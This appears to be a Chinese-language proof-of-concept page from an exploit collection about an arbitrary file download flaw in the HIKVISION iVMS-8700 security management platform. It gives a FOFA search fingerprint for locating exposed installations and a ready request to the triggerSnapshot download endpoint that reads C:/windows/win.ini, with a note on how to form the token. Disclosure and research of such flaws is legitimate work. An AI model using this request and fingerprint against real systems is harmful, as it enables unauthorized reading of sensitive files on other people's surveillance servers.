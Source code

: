 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## FOFA

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704110859434](D:\TMP_FILE\awesome-poc\iot\images\image-20230704110859434.png)

验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![image-20230704111021242](D:\TMP_FILE\awesome-poc\iot\images\image-20230704111021242.png)